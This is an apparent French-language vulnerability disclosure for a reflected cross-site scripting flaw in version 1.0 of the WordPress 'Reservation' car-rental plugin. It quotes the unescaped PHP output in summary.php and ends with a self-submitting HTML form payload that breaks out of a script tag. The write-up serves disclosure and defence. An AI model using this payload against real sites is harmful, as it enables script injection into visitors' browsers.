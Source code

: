 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress Reservation"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [Reservation](https://wordpress.org/plugins/reservation/) se présente de cette façon :

> Navotar Car Rental Reservation Plugin can be easily plugged into your website.
>
> Add the Car Rental Reservation Plugin directly into your website and start getting online reservation from your customers.
>
> Your customers can simply visit your website and select the vehicle they need and fill in the required information and submit. The reservation made will be sent to your car rental software account with Navotar right away.

D'autres fonctionnalités sont listées sur la page du plugin.

La version testée est la 1.0 et date d'il y a 4 ans au moment de ces lignes.

## La vulnérabilité

Dans le script principal `reservation.php` une classe `NTRA_MainControllerOfNavotar` est définie et instanciée en fin de script.

Cette classe a un constructeur qui hooke différentes fonctions :

```php
 Class NTRA_MainControllerOfNavotar{

    public function __construct(){

        add_action( 'init',array( &$this, 'NTRAfileInclude' ) );
        add_action ( 'wp_head',array(&$this, 'NTRAhookInHeader' ));
        add_action( 'init',array( &$this, 'NTRAfrontendFiles' ) );
        add_action( 'admin_menu', array( &$this, 'NTRAaddAdminMenu' ) );
        add_action( 'wp_enqueue_scripts', array( &$this, 'NTRAaddFrontendScripts' ) );
        add_action( 'admin_init',array( &$this, 'NTRAloadAdminStyle' ) );
        add_filter( 'template_include',array( &$this, 'NTRAcontactPageTemplate') );
        add_action('admin_enqueue_scripts', array( &$this, 'NTRAcstmCssAndJs'));
        add_action('admin_enqueue_scripts', array( &$this, 'NTRAadminUrl'));
        add_action("wp_head", array( &$this,"NTRAmyPrintCustomStyle"));
        register_activation_hook(__FILE__,array(&$this, 'NTRAcustomPages'));
```

Le hook destiné aux templates inclut le template nommé `summary.php` :

```php
    function NTRAcontactPageTemplate( $template ) {
        if ( is_page( 'listing' ) ) {
            if ( locate_template( 'listing.php' ) ) {
                $template = locate_template( 'listing.php' );
            } else {
                $template = dirname( __FILE__ ) .'/templates/' . 'listing.php';
            }
        }
--- snip ---                                                                                                                       
        if ( is_page( 'summary' ) ) {
            if ( locate_template( 'summary.php' ) ) {
                $template = locate_template( 'summary.php' );
            } else {
                $template = dirname( __FILE__ ) .'/templates/' . 'summary.php';
            }
        }
--- snip ---
```

C'est ce dernier template qui est vulnérable.

Il commence par extraire les données du tableau `$_POST` pour en remplir d'autres :

```php
    $inf = array();
    $arr = $_POST;

    foreach ($arr as $key => $value) {
        if(stripos($key, '-') !== false){
            $val =  explode("-", $key);
            array_push($val, $value);
            array_push($inf, $val);
        }
        else{
            $exp =  explode("-", $value);
            array_push($inf, $exp);
        }
    }
```

En l'occurrence, c'est dans le bloc `else` que les valeurs passées par POST sont placées dans le tableau `$inf`.

Plus tard le script affiche les données qui n'ont pas été préalablement échappées donc possibilité de XSS :

```php
    //check prmocode onload end

    $("#checkpromo").blur(function(){
        var promo = $('#checkpromo').val();
        if(promo !=''){
            var vtid = <?php if(!empty($inf[0][0])){ echo $inf[0][0]; }  ?>;
            var lid = <?php if(!empty($inf[0][1])){ echo $inf[0][1]; }  ?>;
```

L'injection se fait au milieu de code Javascript. On peut simplement fermer la balise `script` courante puis en rouvrir une autre.

PoC :

```html
<html>
<body>
<form id="myForm" method="POST" action="http://localhost:8000/?page_id=8">
        <input type="hidden" name="fname" value="&lt;/script&gt;&lt;ScRiPt&gt;alert(/XSS/)&lt;/sCrIpT&gt;" />
        <input type="hidden" name="lname" value="default" />
        <input type="hidden" name="phone" value="default" />
        <input type="hidden" name="email" value="whatever@nowhere.com" />
        <input type="hidden" name="city" value="default" />
</form>
<script>document.createElement('form').submit.call(document.getElementById('myForm'));</script>
</body>
</html>
```
